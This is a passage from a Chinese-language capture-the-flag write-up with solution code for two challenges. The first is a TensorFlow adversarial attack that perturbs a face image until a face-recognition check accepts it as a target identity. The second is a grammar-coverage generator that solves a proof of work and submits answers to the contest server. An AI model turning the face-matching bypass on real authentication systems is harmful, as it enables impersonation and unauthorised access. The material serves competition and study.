    1.74563184e-01, -1.74656272e-01, 1.19449571e-04,  1.32924736e-01,
    4.52756137e-02, -5.11706285e-02, 1.84679162e-02, -7.74622187e-02,
    2.99685597e-02,  1.66548729e-01, -1.57246217e-01, -3.03353313e-02,
    9.47528481e-02, -6.63631782e-02, -3.17470208e-02, -1.85560584e-01,
    2.26004064e-01,  1.28806546e-01, -1.15559876e-01, -2.06283614e-01,
    1.40707687e-01, -1.00104943e-01, -8.33150819e-02,  8.25207531e-02,
    -1.33005619e-01, -1.90996230e-01, -2.95138747e-01, -2.70678457e-02,
    3.30062211e-01,  1.28746748e-01, -1.88333243e-01,  5.84503338e-02,
    -8.36766977e-03, -7.47905578e-03, 1.23152651e-01,  1.65390745e-01,
    5.01543283e-03,  1.08317155e-02, -8.22547823e-02, -4.03350629e-02,
    2.58023173e-01, -4.20480780e-02, -2.24346798e-02,  2.48134851e-01,
    -5.13138250e-04,  6.34072348e-02, 6.94152107e-03, -9.12788417e-03,
    -1.11195974e-01,  3.06070670e-02, -1.62505597e-01, -1.20745702e-02,
    -1.50425863e-02, -1.41657144e-02, -1.81038231e-02,  1.26067802e-01,
    -1.41881093e-01,  1.04972236e-01, -5.23118973e-02,  3.43461856e-02,
    -2.61395201e-02, -2.75162887e-02, -2.53709070e-02, -3.63143757e-02,
    1.08865552e-01, -2.02156767e-01, 1.07431002e-01,  8.50366130e-02,
    7.95102417e-02,  1.08320944e-01, 1.53148308e-01,  8.43793526e-02,
    -2.67507583e-02, -3.10356300e-02, -2.16474622e-01, -2.27650702e-02,
    1.20539531e-01, -9.48047191e-02, 1.40443712e-01,  5.64389490e-03,
]

keyface_encoding = np.array(keyface_encoding)


def check(im):
    encoding = face_recognition.face_encodings(im)[0]
    #print("emb", encoding)
    dis = face_recognition.face_distance([keyface_encoding], encoding)
    return dis[0]

def normalize_image(image):    
    [R,G,B] = np.dsplit(image,image.shape[-1])

    Rx = (R - 122.782) / 256.
    Gx = (G - 117.001) / 256.
    Bx = (B - 104.298) / 256.

    new_image = np.dstack((Rx,Gx,Bx))
    return new_image


def revert_image(image):    
    [R,G,B] = np.dsplit(image,image.shape[-1])

    Rx = R * 256 + 122.782
    Gx = G * 256 + 117.001
    Bx = B * 256 + 104.298

    new_image = np.dstack((Rx,Gx,Bx))
    new_image = np.clip(new_image, 0, 255)
    new_image = np.array(new_image, dtype=np.uint8)
    return new_image

def model_predict(im_faces):
    global model
    im_faces = tf.cast(im_faces, tf.float32)
    with tf.GradientTape() as tape:
        tape.watch(im_faces)
        pred = model(im_faces)
        #print("tensorflow", pred)
        loss = tf.norm(pred - keyface_encoding, axis=1, ord=2)
    grad = tape.gradient(loss, im_faces)
    return loss, grad


def edit_image(im, face):
    global model
    top, right, bottom, left = face

    jitter_num = 1000
    imgs = dlib.jitter_image(im, jitter_num)
    imgs = np.array([normalize_image(img) for img in imgs])
    loss, grad = model_predict(imgs)
    print(tf.reduce_mean(loss))

    grad = tf.reduce_mean(grad, axis=0)
    im = normalize_image(im)
    im[top:bottom,left:right]-= 1e-3 * grad[top:bottom,left:right]
    im = revert_image(im)

    return im


im = face_recognition.load_image_file("save2.png")
print(check(im))

model_path = "dlib_face_recognition_resnet_model_v1.h5"
model = tf.keras.models.load_model(model_path, custom_objects={'ScaleLayer': ScaleLayer, 'ReshapeLayer': ReshapeLayer})
#model.summary()

cnt = 0

while True:
    cnt += 1

    loss2 = check(im)
    print(loss2)
    if loss2 < 0.25:
        break
    face = face_recognition.face_locations(im)[0]
    im = edit_image(im, face)
    Image.fromarray(im).save("hack.png")
```

另外，选一个好的初始图很重要。比赛时用奥巴马头像怎么训也不成功，换成某个女人头像很快就成功了。


### how_to_generate

服务器每次会随机生成一个上下文无关文法，我们要写程序自动生成一些AST，覆盖文法中所有生成规则。

我们可以写一个grammar来描述它的grammar，然后自动生成AST。

```
%import common.LETTER
%import common.WORD
%import common.NUMBER
%import common.ESCAPED_STRING
%import common.DIGIT
%import common.WS
%ignore WS

start: header+ rule+

header: "%" "import" LETTER+ "." LETTER+
    | "%" "ignore" LETTER+

rule: start_rule
    | name ":" subrule ("|" subrule)*

start_rule: "start:" "statement+"

subrule: part+ "->" "cov_" NUMBER

part: s_letter
    | s_word
    | s_number
    | s_digit
    | s_expr
    | s_stmt
    | string

s_letter: "LETTER"
s_word: "WORD"
s_number: "NUMBER"
s_digit: "DIGIT"
s_expr: "expression"
s_stmt: "statement"
string: ESCAPED_STRING

name: s_expr
    | s_stmt
```

这就是个coding题。。

```python
from enum import Enum
from typing import List
import lark
import zlib
import random
import string
from pwn import *
from hashlib import sha256


MIN_COV = 30


class PartType(Enum):
    LETTER = 0
    WORD = 1
    NUMBER = 2
    DIGIT = 3
    EXPRESSION = 4
    STATEMENT = 5
    STRING = 6


class Part:
    def __init__(self, typ, data = None):
        if typ == PartType.STRING and not isinstance(data, str):
            raise ValueError
        self.typ = typ
        self.data = data
    
    def __repr__(self) -> str:
        s = str(self.typ)
        if self.data is not None:
            s += " \"%s\"" % self.data
        return s

    def complexity(self):
        if self.typ == PartType.EXPRESSION:
            c = 13.5
        elif self.typ == PartType.STATEMENT:
            c = 42.73
        elif self.typ == PartType.STRING:
            c = len(self.data)
        else:
            c = 1
        return float(c)
    
    def expandable(self):
        return self.typ == PartType.STATEMENT or self.typ == PartType.EXPRESSION


class Rule:
    def __init__(self, parts: List[Part], cov: int):
        self.parts = parts
        self.cov = cov

    def __repr__(self) -> str:
        return " ".join(str(x) for x in self.parts) + " -> cov_%d" % self.cov

    def complexity(self):
        return sum([p.complexity() for p in self.parts])
    
    def expandable(self):
        return any(p.expandable() for p in self.parts)


def parse_gram(in_gram):
    with open("grammar") as f:
        gram = f.read()
    parser = lark.Lark(gram)
    return parser.parse(in_gram)


def parse_rules(gram):
    assert gram.data == "start"
    expr_rules = []
    stmt_rules = []
    for child in gram.children:
        if child.data != "rule":
            continue
        rname = child.children[0]
        if rname.data == "start_rule":
            continue
        rname = rname.children[0].data
        if rname == "s_expr":
            expr_rules = parse_rule(child.children)
        else:
            stmt_rules = parse_rule(child.children)
    return expr_rules, stmt_rules


def parse_rule(ast):
    ans = []
    for x in ast:
        if x.data != "subrule":
            continue
        r = parse_subrule(x)
        ans.append(r)
    return ans


def parse_subrule(ast):
    parts = []
    for x in ast.children:
        if isinstance(x, lark.tree.Tree):
            assert len(x.children) == 1
            y = x.children[0]
            if y.data == "s_expr":
                part = Part(PartType.EXPRESSION)
            elif y.data == "s_stmt":
                part = Part(PartType.STATEMENT)
            elif y.data == "s_word":
                part = Part(PartType.WORD)
            elif y.data == "s_number":
                part = Part(PartType.NUMBER)
            elif y.data == "s_digit":
                part = Part(PartType.DIGIT)
            elif y.data == "s_letter":
                part = Part(PartType.LETTER)
            elif y.data == "string":
                data = y.children[0].strip('"')
                part = Part(PartType.STRING, data)
            else:
                raise ValueError(y)
            parts.append(part)
    cov = int(ast.children[-1])
    return Rule(parts, cov)


class Solver:
    def __init__(self, expr_rules: List[Rule], stmt_rules: List[Rule]):
        self.expr_rules = expr_rules
        self.stmt_rules = stmt_rules
        self.expr_cov = [False] * len(self.expr_rules)
        self.stmt_cov = [False] * len(self.stmt_rules)
        self.count = 0

    def all_cover(self):
        return all(self.expr_cov) and all(self.stmt_cov)
    
    def run(self):
        stmt_id = self.get_stmt_id(True)
        sol, anum = self.generate(self.stmt_rules[stmt_id], MIN_COV)
        #print(sol)
        return sol
    
    def get_rule_id(rules, cov, expand):
        rid = None
        n = len(rules)
        for i in range(n):
            if expand and not rules[i].expandable():
                continue
            if not cov[i]:
                rid = i
                break
        if rid is None:
            if expand:
                rid = random.choice([i for i in range(n) if rules[i].expandable()])
            else:
                rid = random.choice(range(n))
        cov[rid] = True
        return rid

    def get_stmt_id(self, expand):
        return Solver.get_rule_id(self.stmt_rules, self.stmt_cov, expand)

    def get_expr_id(self, expand):
        return Solver.get_rule_id(self.expr_rules, self.expr_cov, expand)

    def generate(self, rule: Rule, cnum: int):
        code = ""
        anum = 1
        #print("gen", cnum, rule)
        for part in rule.parts:
            if part.typ == PartType.DIGIT or part.typ == PartType.NUMBER:
                s = random.choice(string.digits)
            elif part.typ == PartType.LETTER or part.typ == PartType.WORD:
                s = random.choice(string.ascii_letters)
            elif part.typ == PartType.STRING:
                s = part.data
            elif part.typ == PartType.EXPRESSION:
                expr_id = self.get_expr_id(anum + 1 < cnum)
                s, _anum = self.generate(self.expr_rules[expr_id], cnum - anum)
                anum += _anum
            elif part.typ == PartType.STATEMENT:
                stmt_id = self.get_stmt_id(anum + 1 < cnum)
                s, _anum = self.generate(self.stmt_rules[stmt_id], cnum - anum)
                anum += _anum
            else:
                raise ValueError
            #print(s, part)
            code += s + " "
        #print(anum, cnum)
        #print("rule", rule)
        assert anum >= cnum
        return code, anum


def proof(r):
    line = r.recvline().decode().strip()
    part = line[line.find("+")+1:line.find(")")]
    h = line[line.find("==")+2:].strip()
    print(line)
    while True:
        s = ''.join(random.choice(string.digits+string.ascii_letters) for _ in range(4))
        h1 = sha256((s+part).encode()).hexdigest()
        if h1 == h:
            r.recvuntil("Give")
            r.sendline(s)
            break


def collect_cov(ast):
    cov = 0
    if isinstance(ast, lark.tree.Tree):
        for ch in ast.children:
            cov |= collect_cov(ch)
        if ast.data.startswith('cov_'):
            num = int(ast.data[4:])
            cov |= (1<<num)
    return cov


def solve(local):
    if local:
        r = remote("localhost", 10002)
    else:
        r = remote("121.5.253.92", 10001)
        proof(r)

    r.recvuntil("today:")
    gram0 = r.recvuntil("EOF", drop=True)
    gram0 = gram0.decode()
    with open("input", "w") as f:
        f.write(gram0)
    parser0 = lark.Lark(gram0)    

    gram = parse_gram(gram0)
    expr_rules, stmt_rules = parse_rules(gram)

    codes = set()
    solver = Solver(expr_rules, stmt_rules)
    N = 0x1000
    while len(codes) < N:
        sol = solver.run()
        ast = parser0.parse(sol)
        cov = collect_cov(ast)
        if bin(cov).count("1") >= 20:
            codes.add(sol)
        print("len", len(codes))
    assert solver.all_cover()

    MAXSIZE = 0x200000
    code = "|".join(list(codes))
    code = zlib.compress(code.encode())
    size = len(code)
    assert size < MAXSIZE
    code = code.hex()

    #context.log_level = "debug"
    r.recvuntil("size")
    r.sendline(str(size))
    r.recvuntil("code(hex): ")
    r.sendline(code)
    flag = r.recvall().decode()
    r.close()
    return flag


if __name__ == "__main__":
    while True:
        flag = solve(local=True)
        if "fail" not in flag:
            print(flag)
            break
```
